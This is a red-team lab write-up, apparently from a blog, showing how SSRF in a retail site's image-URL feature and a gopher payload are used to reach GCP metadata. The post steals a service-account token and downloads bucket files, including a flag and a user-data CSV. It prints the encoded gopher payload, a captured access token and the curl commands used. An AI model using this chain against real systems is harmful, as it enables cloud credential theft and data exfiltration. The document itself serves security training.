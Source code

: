 ```yaml
---
author: Nithissh S
pubDatetime: 2024-05-11T15:22:00Z
modDatetime: 2024-05-11T09:12:47.400Z
title: GCP Initial Access through SSRF via gopher protocol
slug: gcp-initial-access-gopher-ssrf
featured: true
draft: false
tags:
  - GCP
  - SSRF
  - Gopher
  - Service account 
description:
  The scenario of the lab is that You have recently joined a red team and are on an engagement for the client Gigantic Retail. In scope is their on-premise and cloud environments. As the cloud specialist, you are called upon to get initial access to their infrastructure, starting with an identified IP address.
---
```


## Introduction 

Exploit SSRF with Gopher for GCP Initial Access - A red team engagement scenario involves gaining access to Gigantic Retail's infrastructure. After identifying an IP address (35.226.245.121), exploiting SSRF through the website's image URL functionality leads to access of Google Cloud Platform (GCP) metadata. Constructing a gopher payload and passing it through the URL parameter successfully reveals internal paths and service account information. Accessing the service account token allows further exploration, leading to the discovery of sensitive files like 'flag.txt' and 'user_data.csv' hosted on Google Storage. Retrieving the flag and user data discloses valuable information for the engagement.

 
## Initial Entry point  

| | |
| --- | --- |
| **Type** | **Value** |
| IP Address | 35.226.245.121<br> |


## Solution

 

With the IP Address, I’ve tried to access it directly and found that port 80 is open and hosts a kind of retail website 

 

![](../Files/ssrf.png) 

 

Exploring further, we also found a shop inside the website where we can buy, checkout and purchase 

 

![](../../assets/images/ssrf-1.png) 

 

But there is an interesting functionality where you can specify your profile from a remote URL which is an interesting place to start looking out for SSRF

 

![](../../assets/images/ssrf2.png)   

 

Intercepting the request and looking into the source of the website 

 

![](../../assets/images/ssrf3.png) 

 

In the above, as you can see when we pass the image URL to fetch the image.. it calls through `url` parameter and then looks into the source, where you can see inside `<script>` we have `document.addEventListener('DOMContentLoaded', function() {...})` where it will wait until HTML content to be loaded and once it loaded it tells the `profile-photo` element where it sets it to `url` which we passed

 

But when u pass some reachable URL we may receive a pingback and even though it says “Not an Image”

 

In the Image URL replayed the value with the following URL [http://metadata.google.internal](http://metadata.google.internal "http://metadata.google.internal") which is the metadata for Google cloud just like in AWS which is `169.254.169.254` and URL processed and discloses `computeMetadata` in the response

 

![](../../assets/images/ssrf4.png)  

 

But results in 403 when we tried to hit the [http://metadata.google.internal/computeMetadata/v1/](http://metadata.google.internal/computeMetadata/v1/) because we have to pass the header value which is `Metadata-Flavor: Google`⁠

 

 

![](../../assets/images/ssrf5.png) 

 

 

But even after passing the header `Metadata-Flavor: Google` we are still receiving the 403

 

![](../../assets/images/ssrf6.png)  

 

Looking into the following blog [here](https://blog.codydmartin.com/gcp-cloud-function-abuse/ "https://blog.codydmartin.com/gcp-cloud-function-abuse/") from Cody about abusing Google Cloud functions through gopher and got an idea of constructing the gopher payload but we need how the internal request looks like 

 

```sh
GET /computeMetadata/v1 HTTP/1.1
Host: metadata.google.internal
Accept: */*
Metadata-Flavor: Google
```

 

Converting this HTTP request into the gopher

 

```bash
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

 

When passing the payload through the `url` parameter we didn’t 403 instead our request was successfully parsed disclosing the execution and further paths inside cloud metadata 

 

![](../../assets/images/ssrf7.png) 

 

Accessing `/instance` further reveals internal paths and we have to access `service-accounts` 

 

![](../../assets/images/ssrf8.png) 

 

Accessing that `service-accounts` reveals that other than `default` we have other one service account which is [bucketviewer@gr-proj-1.iam.gserviceaccount.com](mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com "mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com") 

 

 

![](../../assets/images/ssrf10.png) 

 

> Service accounts in Google Cloud Platform (GCP) are special types of accounts used to grant specific permissions to applications, virtual machines, and other services within GCP, enabling them to interact with other Google Cloud services

 

Adding to that `/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` will reveal the token of the specific account just like iam credentials in AWS via metadata 

 

![](../../assets/images/ssrf11.png) 

 

Checked the token using the curl command and found that the token is valid and online 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=ya29.c.c0AY_VpZgBbzy_M8iNeYS9J1McBJnQAPLsAUQ27C6g07VyUz3FPe_sIi5GJtPDpMHZcnSF8jVjuNyIpfpMvJ6b619ENrMbUXosdRvOqzpDqTAg2HmVJw14RvAmynCsx3MzQcsWq_hpKCVjlXZo7ymOop1CuHMbi7II2Gd7HxigAaHbqDCu5nlAJxYARFfri3g9avb3N4B4UFfiBMCbhQp6U1YG5-lOI-H0RsYxBSySHv5TelWXDQRC3giFz7H6yg50mV3A7Rw5f108qY89BL3je6vGoPxmBX63a-OO6Sj3UxmwidYZms9oVtjIXJOl_V95ktagGehAvNamq0ICOLmLrvWLLAqLbIcyD7OgurWcxrM3IWTIUgMrC8C7vXhzMJB2T393Kde48XIUag5loxhk3o1s8kMv8b5ZnV8j4fsYZF11RR7eixWetn4iJMYxQg0g3Z7ucBu7u_p2w49M0f07435yqpRet6y_raxBwZik_b_lpod3ZV1e7byo7XzmqYFYWcjUnort8Xp2sSI7_gnj_YVzdsQRYXQ663MylV3XYOdZ-mck6911SdSpvrwSoV9sY2I0fXWyaIYIZn6bjt2x4zn7kcYXBxaiBz6dJRuwik0f2yg1mWbXhc4da04xqY3Q-3hSX1eolcisuvFsyIZ-5ww80r0_IvR3oWdnhMkvslxoo1kwm61cRYcj1r0hOR91Iu8BnebUz8F9t1kRs6WxJxm0idI1B8J9kOmhF0y2Zs-B01993vatMBofkhcu7pp0r6dieb3VBXY3yS6bmSh4Syrjlp87xJ5o6dQ-iVJsUpb8B7S4ucnRdzyJWpbvhgxW9i1F15vwof6wIy5Srtqpcdr6agphwbRdQWeZuBQ1mp7xrtuV0jxtRu5daxBwZX9Z7QdfV5-Iq5fQB1kOo9dYFQSQ5yY818xtvySeRqunt2VXRlm2bwMs3-w9_WcO_RcSwXn01fleM7u2IS3pq-onh9Y3tM9XSFah6SeY48bOfo3fUyYSqk7rIm1" https://www.googleapis.com/oauth2/v1/tokeninfo

{
 "issued_to": "113150342444479982060",
 "audience": "113150342444479982060",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 2507,
 "access_type": "online"
}
```

 

Further, we know that the images for the shop website are being hosted here 

 

![](../../assets/images/ssrf12.png)  

 

 

From Google docs [here](https://cloud.google.com/storage/docs/authentication#apiauth "https://cloud.google.com/storage/docs/authentication#apiauth"), we gotta know about an API call to access Google storage buckets 

 

```sh
curl -H "Authorization: Bearer $GOOGLE_TOKEN" "https://storage.googleapis.com/storage/v1/b/gigantic-retail/o"
```

 

Got to know the information about the objects and received a huge chunk of data but these two look interesting interesting 

 

```json
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/flag.txt/1703771329072518",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media",
 "name": "userdata/flag.txt",
 "bucket": "gigantic-retail",
 "generation": "1703771329072518",
 "metageneration": "1",
 "contentType": "text/plain",
 "storageClass": "STANDARD",
 "size": "33",
 "md5Hash": "J+PDkjepBufLwKoiCflv2w==",
 "crc32c": "/H+7+Q==",
 "etag": "CIab5OaisoMDEAE=",
 "timeCreated": "2023-12-28T13:48:49.125Z",
 "updated": "2023-12-28T13:48:49.125Z",
 "timeStorageClassUpdated": "2023-12-28T13:48:49.125Z"
 },
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/user_data.csv/1703877006716190",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media",
 "name": "userdata/user_data.csv",
 "bucket": "gigantic-retail",
 "generation": "1703877006716190",
 "metageneration": "1",
 "contentType": "text/csv",
 "storageClass": "STANDARD",
 "size": "2388",
 "md5Hash": "JMvLqhSoe2s9FX6JlXGmxw==",
 "crc32c": "2XJ9cA==",
 "etag": "CJ7a572stYMDEAE=",
 "timeCreated": "2023-12-29T19:10:06.754Z",
 "updated": "2023-12-29T19:10:06.754Z",
 "timeStorageClassUpdated": "2023-12-29T19:10:06.754Z"
 }
```

 

Accessing `mediaLink` with the same curl command with little correction will reveal the flag 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media"

9cee2dec5c28e047022f8ba9e0d7ca62
```

 

You can ask what is the other interesting file which is user data disclosure where it highlights during ur pentest 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"


Name,Address,PhoneNumber,Email,Job Title,Company
John Doe,123 Main St, Seattle, WA 98101,555-1234,john.doe@novasoft.com,Software Engineer,Nova Software Solutions
Jane Smith,456 Oak Ave, Boston, MA 02110,555-5678,jane.smith@bluebaytech.com,Project Manager,Blue Bay Technologies
Bob Johnson,789 Pine Rd, Austin, TX 78701,555-9012,bob.johnson@creativedge.com,Graphic Designer,Creative Edge Design
Alice Williams,101 Cedar Lane, Denver, CO 80202,555-3456,alice.williams@peakhr.com,HR Specialist,Peak Human Resources
Charlie Brown,202 Maple Blvd, Chicago, IL 60601,555-7890,charlie.brown@marketgenius.com,Marketing Director,Market Genius Inc.
Emily Davis,303 Elm Street, San Francisco, CA 94102,555-2345,emily.davis@zenithfinance.com,Financial Analyst,Zenith Finance
Michael Miller,404 Birch Lane, New York, NY 10001,555-6789,michael.miller@techfrontier.com,IT Consultant,Tech Frontier
Olivia Wilson,505 Pinecrest Rd, Miami, FL 33101,555-0123,olivia.wilson@sunrealty.com,Real Estate Agent,Sunshine Realty
David Taylor,606 Oakwood Ave, Philadelphia, PA 19106,555-4567,david.taylor@arcopartners.com,Architect,Arco Partners
Sophia Anderson,707 Maple Court, Las Vegas, NV 89101,555-8901,sophia.anderson@nextstepsales.com,Sales Manager,Next Step Sales
Daniel Harris,808 Cedar Rd, Atlanta, GA 30301,555-2341,daniel.harris@webworlddev.com,Web Developer,Web World Development
Grace Thomas,909 Birch Blvd, Minneapolis, MN 55401,555-6785,grace.thomas@biogenresearch.com,Clinical Researcher,Biogen Research Labs
Isaac Martinez,1010 Oak Lane, Portland, OR 97201,555-0129,isaac.martinez@eduworld.com,Teacher,EduWorld Schools
Ella Rodriguez,1111 Pine Ave, Dallas, TX 75201,555-4563,ella.rodriguez@mediavista.com,Journalist,Media Vista
James Smith,1212 Cedar Street, Orlando, FL 32801,555-8907,james.smith@legalpros.com,Attorney,Legal Pros LLP
Ava Johnson,1313 Elm Rd, Phoenix, AZ 85001,555-2349,ava.johnson@idinteriors.com,Interior Designer,Innovative Designs
Liam Davis,1414 Maple Lane, Raleigh, NC 27601,555-6783,liam.davis@gourmetchef.com,Chef,Gourmet Chef Culinary
Mia Wilson,1515 Pine Blvd, Cleveland, OH 44101,555-0127,mia.wilson@sigmapharma.com,Pharmacist,Sigma Pharmacy
Noah Taylor,1616 Birch Ave, Nashville, TN 37201,555-4561,noah.taylor@truetecheng.com,Engineer,TrueTech Engineering
Sophie Brown,1717 Oakwood Rd, Kansas City, MO 64101,555-8905,sophie.brown@fitnation.com,Fitness Trainer,FitNation
```